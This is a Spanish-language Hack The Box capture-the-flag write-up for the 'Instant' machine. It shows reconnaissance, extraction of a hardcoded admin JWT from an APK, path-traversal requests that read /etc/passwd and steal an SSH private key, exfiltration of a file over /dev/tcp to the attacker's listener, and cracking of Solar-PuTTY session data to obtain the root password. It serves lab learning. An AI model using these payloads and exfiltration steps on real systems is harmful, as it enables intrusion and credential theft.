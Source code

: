 ```yaml
---
title: Instant
description: Instant es una máquina de dificultad media que incluye ingeniería inversa de una aplicación móvil, explotación de endpoints de API y descifrado de hashes y archivos cifrados. Los jugadores analizarán un APK para extraer información confidencial y un token de autorización codificado. Posteriormente, explotarán un endpoint de API vulnerable a la lectura arbitraria de archivos. Finalmente, comprometerán completamente el sistema descifrando y analizando los datos de sesión cifrados de Solar-PuTTY.
date: 2024-12-14
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-instant/instant_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - ssh
  - http
  - tcp
  - apk
  - api
  - data_leaks
  - lfi
  - password_attacks
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/htb/machines/instant:-$ ping -c 1 10.10.11.37
PING 10.10.11.37 (10.10.11.37) 56(84) bytes of data.
64 bytes from 10.10.11.37: icmp_seq=1 ttl=63 time=252 ms

--- 10.10.11.37 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 252.479/252.479/252.479/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/htb/machines/instant:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.37 -oG nmap1
Host: 10.10.11.37 ()	Status: Up
Host: 10.10.11.37 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/htb/machines/instant:-$ sudo nmap -sCV -p22,80 -vvv 10.10.11.37 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 31:83:eb:9f:15:f8:40:a5:04:9c:cb:3f:f6:ec:49:76 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMM6fK04LJ4jNNL950Ft7YHPO9NKONYVCbau/+tQKoy3u7J9d8xw2sJaajQGLqTvyWMolbN3fKzp7t/s/ZMiZNo=
|   256 6f:66:03:47:0e:8a:e0:03:97:67:5b:41:cf:e2:c7:c7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL+zjgyGvnf4lMAlvdgVHlwHd+/U4NcThn1bx5/4DZYY
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://instant.htb/
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: instant.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ echo '10.10.11.37\tinstant.htb' | sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ whatweb instant.htb
http://instant.htb [200 OK] Apache[2.4.58], Bootstrap[4.0.0], Country[RESERVED][ZZ], Email[support@instant.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[10.10.11.37], JQuery[3.2.1], Script, Title[Instant Wallet]
```

---
## Web Analysis

Encuentro una web sin mucho contenido. El botón principal, me permite descargar un APK.

![](assets/img/htb-writeup-instant/instant1_1.png)

Descomprimo el archivo con apktool.

```terminal
/home/kali/Documents/htb/machines/instant:-$ apktool d instant.apk
```
Busco referencias al dominio dentro del código descompilado, e identifico dos subdominios.

```
/home/kali/Documents/htb/machines/instant/instant:-$ grep -r "instant.htb"
smali/com/instantlabs/instant/TransactionActivity.smali:    const-string v0, "http://mywalletv1.instant.htb/api/v1/initiate/transaction"
smali/com/instantlabs/instant/RegisterActivity.smali:    const-string p4, "http://mywalletv1.instant.htb/api/v1/register"
smali/com/instantlabs/instant/ProfileActivity.smali:    const-string v7, "http://mywalletv1.instant.htb/api/v1/view/profile"
smali/com/instantlabs/instant/TransactionActivity$2.smali:    const-string v1, "http://mywalletv1.instant.htb/api/v1/confirm/pin"
smali/com/instantlabs/instant/LoginActivity.smali:    const-string v1, "http://mywalletv1.instant.htb/api/v1/login"
smali/com/instantlabs/instant/AdminActivities.smali:    const-string v2, "http://mywalletv1.instant.htb/api/v1/view/profile"
res/xml/network_security_config.xml:        <domain includeSubdomains="true">mywalletv1.instant.htb</domain>
res/xml/network_security_config.xml:        <domain includeSubdomains="true">swagger-ui.instant.htb</domain>
res/layout/activity_forgot_password.xml:        <TextView android:textSize="14.0sp" android:layout_width="fill_parent" android:layout_height="wrap_content" android:layout_margin="25.0dip" android:text="Please contact support@instant.htb to have your account recovered" android:fontFamily="sans-serif-condensed" android:textAlignment="center" />
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ echo '10.10.11.37\tinstant.htb\tmywalletv1.instant.htb\tswagger-ui.instant.htb' | sudo tee -a /etc/hosts
```

![](assets/img/htb-writeup-instant/instant1_2.png)
![](assets/img/htb-writeup-instant/instant1_3.png)

---
## Vulnerability Exploitation

Al analizar los archivos descompilados, encuentro un JWT con privilegios elevados.

```terminal
/home/kali/Documents/htb/machines/instant/instant:-$ cat smali/com/instantlabs/instant/AdminActivities.smali
```

![](assets/img/htb-writeup-instant/instant1_4.png)
![](assets/img/htb-writeup-instant/instant1_5.png)

Utilizo el JWT y confirmo que permite acceder a información restringida.

```terminal
/home/kali/Documents/htb/machines/instant:-$ curl -s --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=1.log" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq
{
  "/home/shirohige/logs/1.log": [
    "This is a sample log testing\n"
  ],
  "Status": 201
}
```

Identifico que el parámetro `log_file_name` es vulnerable a LFI.

```terminal
/home/kali/Documents/htb/machines/instant:-$ curl -s --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq | grep bash

"root:x:0:0:root:/root:/bin/bash\n",
"shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash\n",
```

Extraigo la clave `id_rsa` del usuario identificado previamente.

```terminal
/home/kali/Documents/htb/machines/instant:-$ curl -s --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2Fhome/shirohige/.ssh/id_rsa" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq '.["/home/shirohige/logs/../../../../../home/shirohige/.ssh/id_rsa"][]' | tr -d '"' | sed 's/\\n//' > id_rsa
```

Configuro los permisos y accedo al sistema como `shirohige`.

```terminal
/home/kali/Documents/htb/machines/instant:-$ chmod 600 id_rsa
/home/kali/Documents/htb/machines/instant:-$ ssh shirohige@instant.htb -i id_rsa

shirohige@instant:~$ id
uid=1001(shirohige) gid=1002(shirohige) groups=1002(shirohige),1001(development)

shirohige@instant:~$ cat user.txt
```

---
## Privilege Escalation

Busco archivos pertenecientes al usuario `shirohige` y encuentro un directorio en `/opt/backups` con un archivo relacionado con Solar-PuTTY.

```terminal
shirohige@instant:~$ find / -user shirohige 2>/dev/null | grep -vE "shirohige|proc|cgroup|run"
/dev/pts/0
/opt/backups
/opt/backups/Solar-PuTTY
/opt/backups/Solar-PuTTY/sessions-backup.dat
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ nc -lnvp 4444 > sessinos-backup.dat
	listening on [any] 4444 ...
```

Envío el archivo a mi máquina.

```terminal
shirohige@instant:~$ cat /opt/backups/Solar-PuTTY/sessions-backup.dat > /dev/tcp/10.10.16.79/4444
```
```terminal
	... connect to [10.10.16.79] from (UNKNOWN) [10.10.11.37] 57220
```

Descargo un script para descifrar las credenciales almacenadas en Solar-PuTTY, y lo ejecuto utilizando `rockyou.txt` como diccionario.

```terminal
/home/kali/Documents/htb/machines/instant:-$ wget https://gist.githubusercontent.com/xHacka/052e4b09d893398b04bf8aff5872d0d5/raw/8e76153cd2d115686a66408f6e2deff7d3740ecc/SolarPuttyDecrypt.py

/home/kali/Documents/htb/machines/instant:-$ python3 SolarPuttyDecrypt.py sessinos-backup.dat /usr/share/wordlists/rockyou.txt
[103] password='estrella'

{"Sessions":[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b-b721-da76cbe8ed04","AuthenticateScript":"00000000-0000-0000-0000-000000000000","LastTimeOpen":"0001-01-01T00:00:00","OpenCounter":1,"SerialLine":null,"Speed":0,"Color":"#FF176998","TelnetConnectionWaitSeconds":1,"LoggingEnabled":false,"RemoteDirectory":""}],"Credentials":[{"Id":"452ed919-530e-419b-b721-da76cbe8ed04","CredentialsName":"instant-root","Username":"root","Password":"12**24nzC!r0c%q12","PrivateKeyPath":"","Passphrase":"","PrivateKeyContent":null}],"AuthScript":[],"Groups":[],"Tunnels":[],"LogsFolderDestination":"C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"}
```

Utilizo la contraseña obtenida para cambiar acceder al usuario `root`.

```terminal
shirohige@instant:~$ su root
Password: 12**24nzC!r0c%q12

root@instant:/home/shirohige# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/630" target="_blank">***Litio7 has successfully solved Instant from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
